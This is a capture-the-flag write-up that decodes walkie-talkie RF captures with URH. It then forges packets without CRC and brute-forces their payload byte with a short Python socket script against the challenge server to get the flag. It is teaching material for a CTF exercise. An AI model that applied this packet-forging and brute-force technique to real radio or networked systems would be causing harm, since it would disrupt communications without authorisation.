

# Pillow Talk

## Description

The officers coordinating with gandia over Walkie Talkies about the inside movement. We require your help in breaking the communication between the tent and insider. Join the heist gang and collapse the communication. 
* Target IP,Port: 18.218.124.8,1337

## Solution

We've given target IP address and offline zip file. 

```bash
unzip captures.zip
Archive:  captures.zip
   creating: captures/
  inflating: captures/RTLSDR_Bands-WT1.uint8  
  inflating: captures/RTLSDR_Bands-WT2.uint8  
  inflating: captures/RTLSDR_Bands-WT3.uint8
```

We find 3 captures named as RTLSDR_Bands-xyz. These are RF captures taken from RTLSDR device. [URH](https://github.com/jopohl/urh) tool can be used to analyse these captures.

```bash
pip3 install urh
```

Open the tool and drop these files to analyse them further. 



We select `Hex` under `Show signal as`. The captures has below values.

```
aaaaaaaa27abff3dbf67bf
aaaaaaaa27abff3dbf67ac
aaaaaaaa27abff3dbf672a
```

A sample RF packet format can be found [here](https://software-dl.ti.com/simplelink/esd/simplelink_cc13x2_26x2_sdk/3.40.00.02/exports/docs/proprietary-rf/proprietary-rf-users-guide/proprietary-rf/packet-format.html#tab-packet-format-comparison). 

```
<preamble><syncword><header><payload><crc>
```

| preamble | sync word | header(src) | header(dst) | Payload |
| -------- | --------- | ----------- | ----------- | ------- |
| aaaaaaaa | 27abff3d  | bf          | 67          | bf      |
| aaaaaaaa | 27abff3d  | bf          | 67          | ac      |
| aaaaaaaa | 27abff3d  | bf          | 67          | 2a      |

As mentioned in description the devices could be old which are used in communication and they don't have CRC implemented. In this case its easy to bruteforce the payload part to break the communication. Let's connect to the given target. 

```bash
nc -nv 18.218.124.8 31337
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Connected to 18.218.124.8:31337.
Communication is going on...
Communication is going on...
Communication is going on...
```

This just says `Communication is going on...` message. We can write a simple python script to automate the 2 byte hex data. 

```python
import socket
import itertools

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('18.218.124.8',31337))
s.recv(1024)

_preamble = 'AAAAAAAA'.encode('utf-8')
_syncword = '27ABFF3D'.encode('utf-8')
_header = 'BF67'.encode('utf-8')

j = '0123456789ABCDEF'
y = ''
for i in itertools.product(j,repeat=2):
	_payload = (y+''.join(i)).encode('utf-8')
	s.send(_preamble+_syncword+_header+_payload)
	data = s.recv(1024)
	if 'ACVCTF{' in data.decode('utf-8'):
		print(data)
		break
```

Running the script prints the flag.

```bash
python3 client.py 
b'Broken link..ACVCTF{rf_brut3f0rc3_c4n_wr3ck_th1ng5}'
```

